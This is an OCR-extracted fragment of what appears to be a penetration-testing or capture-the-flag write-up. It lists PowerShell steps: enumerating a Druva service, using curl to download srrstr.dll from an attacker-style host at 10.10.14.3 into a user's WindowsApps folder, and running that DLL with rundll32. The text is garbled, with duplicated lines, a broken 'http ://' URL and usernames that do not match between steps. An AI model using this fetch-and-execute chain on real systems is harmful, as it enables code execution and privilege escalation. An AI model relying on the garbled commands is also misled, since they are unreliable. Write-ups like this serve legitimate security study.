 `get-service | ? {$_.DisplayName -like 'Druva*'}``get-service | ? {$_.DisplayName -like 'Druva*'}`

> Enumerate a running service by name with PowerShellEnumerate a running service by name with PowerShell

`curl http ://10.10.14.3:8080/srrstr.dll -O "C:\Users\lafi\AppData\Local\Microsoft\WindowsApps\srrstr.dll"`

> Downloading file with cURL in PowerShell

`rundll32 shell32.dll,Control_RunDLL C:\Users\sarah\AppData\Local\Microsoft\WindowsApps\srrstr.dll`

> Executing custom dll with rundll32.exe